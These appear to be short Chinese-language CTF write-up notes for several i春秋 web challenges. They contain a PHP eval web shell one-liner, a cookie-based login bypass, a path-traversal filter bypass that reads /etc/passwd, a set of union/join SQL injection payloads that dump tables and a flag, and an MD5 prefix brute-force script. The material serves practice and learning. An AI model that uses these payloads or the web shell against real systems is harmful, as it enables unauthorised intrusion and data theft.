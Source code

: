 `<?=eval($_POST['cmd']);`

## zone（i春秋）

文件包含

抓包cookie:login=1 绕过登录

输入/manages/admin.php?module=ind../ex&name=php发现可以正常访问于是猜想../被替换为空，所以将../改为..././于是访问/manages/admin.php?module=..././..././..././etc/passwd&name=

发现site-enabled/dedault,查看发现存在目录遍历

URL/online-movies../ 

## SQLI（i春秋）

过滤，union连接用join


```
/l0gin.php?id=-1%27 union select * from (select group_concat(distinct(database()))) a join (select version()) b%23 

/l0gin.php?id=-1%27 union select * from (select group_concat(table_name) from information_schema.tables where table_schema='sqli') a join (select version()) b%23


/l0gin.php?id=-1%27 union select * from (select group_concat(column_name) from information_schema.columns where table_name='users') a join (select version()) b%23 

/l0gin.php?id=-1%27 union select * from (select group_concat(flag_9c861b688330) from users) a join (select version()) b%23 
```


## getflag（i春秋）

1. 先计算MD5值

```
import requests
import base64
import sys
import hashlib

def getmd5(index):
	for i in range(100000,100000000):
		x = i
		md5 = hashlib.md5(str(x).encode('utf8')).hexdigest()
		if md5[:6] == index:
			return x
	
print(getmd5('f4a552'))

```
